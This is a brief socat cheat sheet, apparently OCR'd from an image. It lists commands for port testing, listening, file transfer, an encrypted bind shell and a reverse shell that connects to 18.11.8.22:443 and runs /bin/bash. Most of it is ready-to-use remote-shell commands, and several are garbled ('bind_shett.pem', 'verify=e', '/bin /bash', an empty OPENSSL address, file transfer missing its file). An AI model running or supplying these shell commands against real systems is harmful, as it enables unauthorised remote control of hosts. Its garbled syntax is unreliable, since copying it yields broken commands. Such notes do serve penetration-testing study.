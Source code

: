 # Socat

### Test open port

```text
socat - <protocol>:<xx.xx.xx.xx>:<port> 
e.g; socat - TCP4:192.168.1.10:80
```

### Listening on a TCP/UDP Port

`socat TCP4-LISTEN:443 STDOUT`

### Transfering file using Socat 

#### SENDER \(Listener\) 

`socat TCP4-LISTEN:443,fork`

#### RECEIVER

`socat TCP4:18.11.8.4:443,create` 

### Bind Shell 

#### LISTENER 

`socat OPENSSL-LISTEN:443,cert=bind_shett.pem,verify=e,fork EXEC:/bin /bash`

\* enabled encryption.

#### Client 

`socat - OPENSSL::,verify=8`

### Reverse Shell 

#### LISTENER 

`socat -d -d TCP4-LISTEN:443 STDOUT`

#### Client \(Send Reverse shell\) 

`socat TCP4:18.11.8.22:443 EXEC:/bin/bash`

